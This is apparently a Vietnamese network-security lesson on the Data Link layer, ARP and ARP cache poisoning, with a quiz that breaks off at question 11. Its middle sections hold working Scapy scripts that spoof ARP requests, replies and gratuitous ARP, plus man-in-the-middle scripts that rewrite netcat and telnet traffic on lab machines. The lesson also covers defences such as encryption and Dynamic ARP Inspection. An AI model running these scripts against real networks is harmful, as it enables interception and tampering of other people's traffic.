





# Bài 7: Data Link Layer và Các Tấn Công

---

## 1. Tổng quan về Data Link Layer

### 1.1 Vai trò của Data Link Layer

Data Link Layer (Tầng liên kết dữ liệu) là tầng thứ hai trong mô hình OSI, nằm giữa Physical Layer và Network Layer. Tầng này chịu trách nhiệm truyền dữ liệu giữa hai thiết bị kết nối **trực tiếp với nhau** trên cùng một mạng cục bộ (LAN).

**Phía gửi:**

- Đóng gói datagram (từ tầng Network) vào trong một **frame**
- Thêm các bit kiểm tra lỗi (error checking bits)
- Quản lý truyền dữ liệu tin cậy và kiểm soát luồng

**Phía nhận:**

- Kiểm tra lỗi, quản lý truyền tin cậy và kiểm soát luồng
- Giải nén datagram và chuyển lên tầng Network phía trên

```
sending side:                          receiving side:
  application                            application
  transport                              transport
  network                                network
  [link]   <--- truyền qua đây --->      [link]
  physical                               physical
```

### 1.2 Địa chỉ MAC

Địa chỉ MAC (Media Access Control) còn được gọi là **LAN address**, **physical address**, hoặc **Ethernet address**. Đây là địa chỉ dùng ở tầng Data Link để xác định một giao tiếp mạng (network interface).

**Đặc điểm:**

- Dài **48 bit**, thường biểu diễn dưới dạng thập lục phân, ví dụ: `1A-2F-BB-76-09-AD`
- Được ghi sẵn vào ROM của card mạng (NIC) bởi nhà sản xuất (có thể thay đổi bằng phần mềm)
- Quản lý bởi IEEE: mỗi nhà sản xuất được cấp một phần không gian địa chỉ để đảm bảo tính duy nhất
- **Flat address (địa chỉ phẳng)**: có thể di chuyển card mạng từ LAN này sang LAN khác mà không cần thay đổi địa chỉ

**So sánh MAC và IP:**

| Đặc điểm | Địa chỉ MAC | Địa chỉ IP |
|---|---|---|
| Độ dài | 48 bit | 32 bit (IPv4) |
| Tầng | Data Link (L2) | Network (L3) |
| Phạm vi | Cục bộ (trong LAN) | Toàn cầu |
| Tính di động | Cố định theo thiết bị | Phụ thuộc subnet |
| Phép ẩn dụ | Số chứng minh thư | Địa chỉ nhà |

!!! note "Lưu ý quan trọng"
    Địa chỉ IP **không portable**: khi bạn di chuyển thiết bị sang subnet khác, IP thay đổi. Nhưng địa chỉ MAC thì **không đổi** khi di chuyển sang LAN khác.

### 1.3 Vấn đề bảo mật liên quan đến MAC

Vì địa chỉ MAC là duy nhất và gắn với phần cứng, nó có thể bị lợi dụng để **theo dõi vị trí** người dùng:

- Khi thiết bị tìm kiếm mạng Wi-Fi, nó phát quảng bá địa chỉ MAC của mình
- Các Access Point (AP) có thể ghi nhớ MAC và theo dõi hành trình của bạn

**Giải pháp:** MAC Address Randomization — iOS 8 trở đi và các hệ điều hành hiện đại sử dụng địa chỉ MAC ngẫu nhiên (phần mềm tạo ra) khi quét Wi-Fi, thay vì dùng địa chỉ MAC thật. Đây là sự đánh đổi giữa **hiệu năng** và **quyền riêng tư**.

### 1.4 Ethernet Frame

Ethernet frame (theo chuẩn IEEE 802.3) có cấu trúc:

```
+------------------+------------------+----------+------------------------+-------------+
| Destination MAC  |   Source MAC     | EtherType |        Payload         |  CRC Check  |
|    (6 bytes)     |    (6 bytes)     | (2 bytes)  |    (46–1500 bytes)    |  (4 bytes)  |
+------------------+------------------+----------+------------------------+-------------+
|<-------------- MAC Header (14 bytes) ---------->|
|<-------------------------------- Ethernet Frame (64 – 1518 bytes) --------------------->|
```

**Các giá trị EtherType phổ biến:**

- `0x0800`: IPv4
- `0x0806`: ARP

---

## 2. Giao thức ARP

### 2.1 ARP là gì?

**ARP (Address Resolution Protocol)** là giao thức dùng để ánh xạ địa chỉ tầng Network (IP) sang địa chỉ tầng Data Link (MAC).

**Vấn đề đặt ra:** Khi máy A muốn gửi gói tin đến máy B trong cùng LAN, A biết địa chỉ IP của B nhưng **không biết địa chỉ MAC** của B. Để đóng gói frame Ethernet, A cần biết MAC của B. ARP giải quyết bài toán này.

### 2.2 ARP Cache (ARP Table)

Mỗi node trong mạng (host, router) duy trì một **ARP cache (bảng ARP)**, lưu trữ các ánh xạ IP → MAC đã biết.

**Cấu trúc mỗi entry:** `<IP address, MAC address, TTL>`

- **TTL (Time To Live):** Thời gian tồn tại của entry, thường là **20 phút**. Sau khi hết hạn, entry bị xóa và ARP sẽ hỏi lại nếu cần.

**Lệnh Linux để quản lý ARP cache:**

```bash
# Xem ARP cache
arp -n

# Xóa một entry trong ARP cache
arp -d <IP_address>
```

### 2.3 Hoạt động của ARP

Quy trình ARP gồm 3 bước:



**Bước 1 - ARP Request (Broadcast):**

- A gửi ARP Request đến địa chỉ broadcast `FF-FF-FF-FF-FF-FF`
- Tất cả các node trong LAN đều nhận được
- Nội dung: "Ai có IP `137.196.7.14`? Hãy báo cho `137.196.7.23`"

**Bước 2 - ARP Reply (Unicast):**

- B nhận ARP Request, nhận ra đây là hỏi về mình
- B gửi ARP Reply trực tiếp về A
- Nội dung: "IP `137.196.7.14` tương ứng với MAC `58-23-D7-FA-20-B0`"

**Bước 3 - Cập nhật ARP Cache:**

- A nhận ARP Reply từ B
- A thêm entry `137.196.7.14 → 58-23-D7-FA-20-B0` vào ARP cache với TTL 20 phút

### 2.4 Routing qua nhiều subnet

Khi gửi gói tin từ A (subnet 1) đến B (subnet 2) qua router R:



!!! important "Điểm quan trọng"
    **IP header không thay đổi** trong suốt hành trình (src=IP_A, dst=IP_B). Chỉ có **MAC header thay đổi** tại mỗi hop: frame được "đóng lại" với MAC nguồn và đích mới phù hợp với đoạn mạng hiện tại.

### 2.5 ARP là giao thức Stateless

ARP là **stateless protocol**: không lưu trạng thái kết nối. Khi nhận một ARP reply, node sẽ **cập nhật cache ngay lập tức mà không cần xác minh** xem mình có gửi ARP request trước đó không. Đây chính là điểm yếu cốt lõi dẫn đến các cuộc tấn công.

---

## 3. Tấn công ARP Cache Poisoning

### 3.1 Ý tưởng tấn công

Vì ARP là **stateless** và **không có cơ chế xác thực**, kẻ tấn công có thể gửi các ARP message giả mạo (spoofed) để cập nhật sai ARP cache của nạn nhân.

**3 loại ARP message có thể bị giả mạo:**

1. **ARP Request** — Khi nạn nhân nhận ARP request, dù có hay không có entry tương ứng, nó sẽ tự động cập nhật cache từ thông tin trong request.
2. **ARP Reply** — Khi nạn nhân nhận ARP reply, nếu đã có entry trong cache, nó sẽ cập nhật lại. Nếu chưa có entry, reply thường bị bỏ qua (tùy hệ điều hành).
3. **Gratuitous ARP** — Là ARP request đặc biệt mà sender tự quảng bá về chính mình (src IP = target IP, gửi broadcast). Được dùng để cập nhật cache cho tất cả các node trong mạng.

!!! warning "Điểm khác biệt"
    - **ARP Request**: Dù nạn nhân chưa có entry, vẫn sẽ chấp nhận và cập nhật cache.
    - **ARP Reply / Gratuitous**: Thường chỉ cập nhật nếu nạn nhân **đã có entry** trong cache hoặc đang chờ reply. Nếu chưa có, cần áp dụng thủ thuật khác.

### 3.2 Kỹ thuật dùng Scapy để giả mạo ARP

**Scapy** là thư viện Python mạnh mẽ cho phép tạo và gửi các gói tin mạng tùy ý.

**Các trường cần quan tâm:**

=== "Lớp Ether"
    ```python
    ls(Ether)
    # dst   - MAC đích
    # src   - MAC nguồn
    # type  - EtherType (0x0806 cho ARP, 0x0800 cho IPv4)
    ```

=== "Lớp ARP"
    ```python
    ls(ARP)
    # hwtype - Loại phần cứng (1 = Ethernet)
    # ptype  - Loại giao thức (0x0800 = IPv4)
    # hwlen  - Độ dài địa chỉ phần cứng (6 bytes)
    # plen   - Độ dài địa chỉ giao thức (4 bytes)
    # op     - Opcode: 1=request, 2=reply
    # hwsrc  - MAC nguồn (sender)
    # psrc   - IP nguồn (sender)
    # hwdst  - MAC đích (target)
    # pdst   - IP đích (target)
    ```

### 3.3 Code ví dụ giả mạo ARP

=== "Giả mạo ARP Request"
    ```python
    #!/usr/bin/python3
    from scapy.all import *

    VM_TARGET_IP  = "10.102.20.178"
    VM_TARGET_MAC = "00:50:56:a8:1a:d3"
    VICTIM_IP     = "10.102.20.177"
    FAKE_MAC      = "aa:bb:cc:dd:ee:ff"

    # Tạo Ethernet frame gửi unicast đến target
    ether = Ether()
    ether.dst = VM_TARGET_MAC   # Gửi thẳng đến target
    ether.src = FAKE_MAC        # Giả MAC nguồn

    # Tạo ARP packet
    arp = ARP()
    arp.psrc  = VICTIM_IP       # Giả vờ là victim
    arp.hwsrc = FAKE_MAC        # Với MAC giả
    arp.pdst  = VM_TARGET_IP    # Hỏi về target
    # op mặc định = 1 (request)

    frame = ether / arp
    sendp(frame)

    # Kết quả: ARP cache của target sẽ ghi:
    # VICTIM_IP -> FAKE_MAC (sai!)
    ```

=== "Giả mạo ARP Reply"
    ```python
    #!/usr/bin/python3
    from scapy.all import *

    VM_TARGET_IP  = "10.102.20.178"
    VM_TARGET_MAC = "00:50:56:a8:1a:d3"
    VICTIM_IP     = "10.102.20.177"
    FAKE_MAC      = "22:bb:cc:dd:ee:ff"

    ether = Ether()
    ether.dst = VM_TARGET_MAC
    ether.src = FAKE_MAC

    arp = ARP()
    arp.op    = 2               # Reply
    arp.psrc  = VICTIM_IP
    arp.hwsrc = FAKE_MAC
    arp.pdst  = VM_TARGET_IP
    arp.hwdst = VM_TARGET_MAC

    frame = ether / arp
    sendp(frame)
    ```

=== "Giả mạo Gratuitous ARP"
    ```python
    #!/usr/bin/python3
    from scapy.all import *

    VICTIM_IP  = "10.102.20.177"
    FAKE_MAC   = "11:bb:cc:dd:ee:ff"

    # Gratuitous ARP gửi broadcast
    ether = Ether()
    ether.dst = "ff:ff:ff:ff:ff:ff"  # Broadcast
    ether.src = FAKE_MAC

    arp = ARP()
    arp.psrc  = VICTIM_IP
    arp.hwsrc = FAKE_MAC
    arp.pdst  = VICTIM_IP            # src = dst (đặc trưng của Gratuitous)
    arp.hwdst = "ff:ff:ff:ff:ff:ff"

    frame = ether / arp
    sendp(frame)
    ```

### 3.4 Xử lý trường hợp nạn nhân chưa có cache entry

Nếu kẻ tấn công chỉ có thể gửi ARP Reply nhưng target chưa có entry trong cache, cần dùng thủ thuật:

1. Kẻ tấn công gửi một **spoofed ICMP echo request** đến target, **giả vờ là victim**
2. Target cần reply về victim → nó phải tra cứu MAC của victim → gửi ARP request về victim
3. Victim trả lời ARP → target có entry hợp lệ trong cache
4. Bây giờ kẻ tấn công gửi ARP Reply giả → target cập nhật lại cache với MAC sai

---

## 4. Tấn công Man-in-the-Middle (MITM)

### 4.1 Khái niệm MITM

Tấn công MITM xảy ra khi kẻ tấn công **chèn mình vào giữa** hai bên đang giao tiếp, có thể nghe lén hoặc sửa đổi dữ liệu mà không bị phát hiện.



**Để MITM thành công, kẻ tấn công cần được "đặt vào giữa" luồng traffic.** Các kỹ thuật để làm điều này:

| Tầng | Kỹ thuật |
|---|---|
| Data Link (L2) | ARP Cache Poisoning |
| Network (L3) | ICMP Redirect |
| Application (L7) | DNS Cache Poisoning |

### 4.2 MITM sử dụng ARP Cache Poisoning

**Điều kiện tiên quyết:** Kẻ tấn công M phải **ở trong cùng mạng LAN** với A và B.

**Mục tiêu:**

- Đầu độc ARP cache của A: A nghĩ MAC của B là `MAC_M`
- Đầu độc ARP cache của B: B nghĩ MAC của A là `MAC_M`



**Khi A gửi gói tin đến B:**

- IP header vẫn là: `src=IP_A, dst=IP_B` (không thay đổi)
- MAC header: `src=MAC_A, dst=MAC_M` (vì ARP cache của A đã bị đầu độc)
- Frame đến M chứ không đến B!

### 4.3 Xử lý gói tin tại máy M

Khi M nhận được frame, có 2 trường hợp:

=== "M cấu hình như Router (IP Forwarding = 1)"
    M sẽ tự động chuyển tiếp gói tin đến B. Đây là chế độ nghe lén thụ động (passive sniffing). Để chủ động sửa đổi, cần tắt IP forwarding.

=== "M cấu hình như Host (IP Forwarding = 0)"
    M nhận gói tin nhưng **drop** nó (không forward). Để thực hiện MITM có sửa đổi nội dung, M cần:
    1. Bắt gói tin bằng raw socket
    2. Sửa đổi nội dung
    3. Tự tay gửi gói tin đã sửa đến đích thực sự

```bash
# Tắt IP forwarding trên Linux
echo 0 > /proc/sys/net/ipv4/ip_forward

# Bật IP forwarding
echo 1 > /proc/sys/net/ipv4/ip_forward
```

### 4.4 Raw Socket để bắt gói tin

Để M có thể bắt các gói tin trước khi kernel drop chúng:

```
User Space
  ┌─────────────────────┐
  │  Chương trình sniffer│ ← Nhận bản sao từ raw socket
  └─────────────────────┘
Kernel Space
  ┌─────────────────────┐
  │   Protocol Stack    │
  │   Ring Buffer       │ ← Raw socket cho phép đọc từ đây
  │   Link-level driver │
  └─────────────────────┘
        Network
```

Mở raw socket = nói với kernel: "Trước khi anh drop packet, cho tôi một bản sao!"

### 4.5 Ví dụ MITM trên Netcat — Thay thế nội dung

**Kịch bản:** A (10.0.2.6) giao tiếp với B (10.0.2.7) qua netcat, M chặn và thay thế từ "kevin" bằng "AAAAA":

```python
#!/usr/bin/python3
from scapy.all import *

VM_A_IP = "10.0.2.6"
VM_B_IP = "10.0.2.7"

def spoof_pkt(pkt):
    if pkt[IP].src == VM_A_IP and pkt[IP].dst == VM_B_IP and pkt[TCP].payload:
        data = pkt[TCP].payload.load
        print("Captured: %s, length: %d" % (data, len(data)))

        # Tạo gói tin mới dựa trên gói cũ
        newpkt = IP(bytes(pkt[IP]))

        # Xóa checksum để Scapy tính lại
        del(newpkt.chksum)
        del(newpkt[TCP].payload)
        del(newpkt[TCP].chksum)

        # Thay thế nội dung
        newdata = data.replace(b'kevin', b'AAAAA')

        # Gửi gói tin đã sửa
        send(newpkt / newdata)

    elif pkt[IP].src == VM_B_IP and pkt[IP].dst == VM_A_IP:
        # Chiều ngược lại: forward thẳng không sửa
        newpkt = IP(bytes(pkt[IP]))
        send(newpkt)

# Sniff gói tin giữa A và B
sniff(filter="tcp", prn=spoof_pkt)
```

!!! note "Tại sao phải xóa checksum?"
    Khi sửa nội dung payload, checksum cũ sẽ không còn hợp lệ. Xóa trường checksum để Scapy tự động tính lại checksum đúng khi gửi.

### 4.6 Ví dụ MITM trên Telnet

**Sự khác biệt giữa Netcat và Telnet:**

| | Netcat | Telnet |
|---|---|---|
| Cách gửi | Gửi cả dòng khi nhấn Enter | Gửi từng ký tự một |
| Echo | Client tự hiển thị | Server echo lại từng ký tự |
| TCP packet | Nhiều ký tự trong 1 packet | Thường 1 ký tự / 1 packet |

```python
def spoof_pkt(pkt):
    if pkt[IP].src == VM_A_IP and pkt[IP].dst == VM_B_IP and pkt[TCP].payload:
        data = pkt[TCP].payload.load

        newpkt = IP(bytes(pkt[IP]))
        del(newpkt.chksum)
        del(newpkt[TCP].payload)
        del(newpkt[TCP].chksum)

        # Chuyển bytes thành list để xử lý từng ký tự
        data_list = list(data)

        # Thay thế mọi ký tự chữ cái bằng 'A'
        for i in range(len(data_list)):
            if chr(data_list[i]).isalpha():
                data_list[i] = ord('A')

        # Chuyển lại thành bytes
        newdata = bytes(data_list)
        send(newpkt / newdata)
```

---

## 5. Biện pháp đối phó

### 5.1 Hạn chế của ARP Cache Poisoning

!!! success "Điểm quan trọng để nhớ"
    ARP Cache Poisoning **đòi hỏi kẻ tấn công phải ở trong cùng mạng LAN** với nạn nhân. Đây là tấn công cục bộ (local attack), không thể thực hiện từ xa qua Internet.

Ví dụ minh họa: Nếu "hacker từ Nga" muốn tấn công mạng Nhà Trắng bằng ARP Cache Poisoning, điều đó là **không thể** vì họ không ở trong cùng mạng nội bộ với mục tiêu.

### 5.2 Biện pháp đối phó tốt nhất

**Mã hóa (Encryption) là biện pháp đối phó hiệu quả nhất:**

Ngay cả khi kẻ tấn công thành công thực hiện ARP Cache Poisoning và đặt mình vào giữa:

- Nếu traffic được **mã hóa** (HTTPS, TLS, SSH, ...), kẻ tấn công có thể thấy gói tin nhưng **không thể đọc hoặc sửa đổi** nội dung (vì không có key giải mã)
- Điều duy nhất kẻ tấn công có thể làm là **Denial of Service (DoS)** — không forward gói tin, làm gián đoạn kết nối



**Các biện pháp khác:**

- **Static ARP entries:** Gán thủ công ARP entry tĩnh, không cho phép cập nhật động. Nhược điểm: khó quản lý trong mạng lớn.
- **Dynamic ARP Inspection (DAI):** Switch kiểm tra ARP packet trước khi forward, chỉ cho phép ARP hợp lệ dựa trên bảng DHCP snooping binding.
- **VPN:** Mã hóa toàn bộ traffic, ngay cả trong mạng nội bộ.

---

## 6. Câu hỏi ôn tập

??? question "Câu hỏi: Ping 1.2.3.4 vs ping 10.20.20.111 — tại sao khác nhau?"
    **Câu hỏi:** Quan sát hai lệnh sau và giải thích sự khác biệt:
    ```bash
    ping 1.2.3.4        # IP không tồn tại, ngoài mạng local
    ping 10.20.20.111   # IP không tồn tại, trong cùng subnet
    ```
    
    **Trả lời:**
    
    - `ping 1.2.3.4`: IP này nằm ngoài mạng local. Router sẽ chuyển gói tin ra ngoài. Nếu có kẻ tấn công (sniffer) đang chạy trên mạng local và giả mạo reply, victim sẽ nhận được ICMP echo reply giả → ping thành công (misleading!).
    
    - `ping 10.20.20.111`: IP này nằm trong **cùng subnet**. Trước khi gửi, kernel phải ARP để tìm MAC của `10.20.20.111`. Vì IP này không tồn tại, không có ai reply ARP → kernel không thể đóng frame → gửi thông báo "Destination Host Unreachable".
    
    **Bài học:** Đối với IP cùng subnet, ARP là bước bắt buộc trước khi gửi. Đối với IP ngoài subnet, gói tin được gửi đến default gateway (router), không cần ARP đến đích.

??? question "Câu hỏi: 'Hacker từ Nga tấn công bằng ARP Cache Poisoning vào mạng Nhà Trắng' — Có hợp lý không?"
    **Trả lời: Không hợp lý.**
    
    ARP Cache Poisoning là tấn công ở tầng Data Link (L2), chỉ hoạt động trong phạm vi một mạng LAN. Gói ARP không được định tuyến qua Internet (router không forward ARP broadcast). Để tấn công ARP Cache Poisoning, kẻ tấn công bắt buộc phải **có mặt vật lý hoặc kết nối trực tiếp vào cùng mạng nội bộ** với nạn nhân. Hacker ở Nga không thể thực hiện tấn công này từ xa vào mạng Nhà Trắng.

---

# Câu hỏi trắc nghiệm

**Câu 1.** Data Link Layer có chức năng chính là gì?

- A. Định tuyến gói tin giữa các mạng khác nhau
- B. Đóng gói datagram vào frame và truyền giữa hai giao tiếp kết nối trực tiếp
- C. Thiết lập kết nối TCP giữa hai ứng dụng
- D. Phân giải tên miền thành địa chỉ IP

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Data Link Layer chịu trách nhiệm truyền dữ liệu giữa hai thiết bị kết nối trực tiếp trên cùng mạng LAN, thông qua việc đóng gói datagram vào frame. Định tuyến giữa các mạng là chức năng của Network Layer. TCP là tầng Transport. DNS là tầng Application.

---

**Câu 2.** Địa chỉ MAC có độ dài bao nhiêu bit?

- A. 32 bit
- B. 64 bit
- C. 48 bit
- D. 128 bit

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    Địa chỉ MAC dài 48 bit, thường biểu diễn dưới dạng 6 cặp số hex, ví dụ `1A-2F-BB-76-09-AD`. Địa chỉ IP (IPv4) là 32 bit, IPv6 là 128 bit.

---

**Câu 3.** Điểm khác biệt chính giữa địa chỉ MAC và địa chỉ IP là gì?

- A. MAC dài hơn IP
- B. MAC là địa chỉ phẳng (portable), IP phụ thuộc vào subnet
- C. IP được ghi vào ROM phần cứng, MAC thì không
- D. MAC dùng cho định tuyến giữa các mạng

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    MAC là "flat address" — gắn liền với phần cứng và không thay đổi khi di chuyển sang LAN khác. IP là "hierarchical address" — phụ thuộc vào subnet đang kết nối, thay đổi khi di chuyển mạng. Thực ra MAC được ghi vào ROM (không phải IP).

---

**Câu 4.** EtherType `0x0806` trong Ethernet frame đại diện cho giao thức nào?

- A. IPv4
- B. IPv6
- C. ARP
- D. TCP

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    `0x0806` là mã EtherType của giao thức ARP. `0x0800` là IPv4. `0x86DD` là IPv6. TCP không có EtherType riêng vì nó nằm bên trong IP.

---

**Câu 5.** ARP (Address Resolution Protocol) dùng để làm gì?

- A. Ánh xạ tên miền sang địa chỉ IP
- B. Ánh xạ địa chỉ IP sang địa chỉ MAC
- C. Ánh xạ địa chỉ MAC sang địa chỉ IP
- D. Phân bổ địa chỉ IP tự động

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    ARP ánh xạ địa chỉ tầng Network (IP) sang địa chỉ tầng Data Link (MAC). Khi biết IP của một thiết bị trong cùng LAN, ARP cho phép tìm ra địa chỉ MAC tương ứng. DNS ánh xạ tên miền sang IP. DHCP phân bổ IP tự động.

---

**Câu 6.** ARP Cache lưu trữ thông tin gì?

- A. Bảng định tuyến IP
- B. Ánh xạ `<IP address, MAC address, TTL>`
- C. Lịch sử kết nối TCP
- D. Danh sách DNS records

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Mỗi entry trong ARP cache (ARP table) gồm 3 thành phần: địa chỉ IP, địa chỉ MAC tương ứng, và TTL (thời gian sống của entry, thường 20 phút).

---

**Câu 7.** TTL trong ARP cache thường có giá trị mặc định là bao nhiêu?

- A. 5 phút
- B. 10 phút
- C. 20 phút
- D. 60 phút

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    TTL mặc định trong ARP cache thường là 20 phút. Sau thời gian này, entry bị xóa và sẽ cần ARP request mới nếu cần giao tiếp với địa chỉ đó.

---

**Câu 8.** Lệnh nào trên Linux dùng để xem ARP cache?

- A. `netstat -a`
- B. `ip route`
- C. `arp -n`
- D. `ifconfig -arp`

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    `arp -n` hiển thị ARP cache mà không phân giải hostname (dùng số thay vì tên). `arp -d <IP>` dùng để xóa một entry.

---

**Câu 9.** Khi máy A gửi ARP Request, nó sẽ gửi đến địa chỉ MAC nào?

- A. Địa chỉ MAC của router
- B. Địa chỉ MAC của máy đích
- C. `FF-FF-FF-FF-FF-FF` (broadcast)
- D. Địa chỉ MAC của DNS server

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    ARP Request được gửi đến địa chỉ broadcast `FF-FF-FF-FF-FF-FF`, nghĩa là tất cả các thiết bị trong LAN đều nhận được. Chỉ thiết bị có IP tương ứng mới reply.

---

**Câu 10.** ARP Reply được gửi theo phương thức nào?

- A. Broadcast đến toàn bộ LAN
- B. Unicast trực tiếp đến máy đã gửi request
- C. Multicast đến một nhóm thiết bị
- D. Anycast đến thiết bị gần nhất

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    ARP Reply được gửi **unicast** trực tiếp đến máy đã gửi ARP Request (vì máy reply biết MAC của người hỏi từ ARP Request). Chỉ có ARP Request mới dùng broadcast.

---

**Câu 11.** Khi gói tin IP được truyền qua router từ subnet này sang subnet khác, phần nào thay đổi tại mỗi hop?

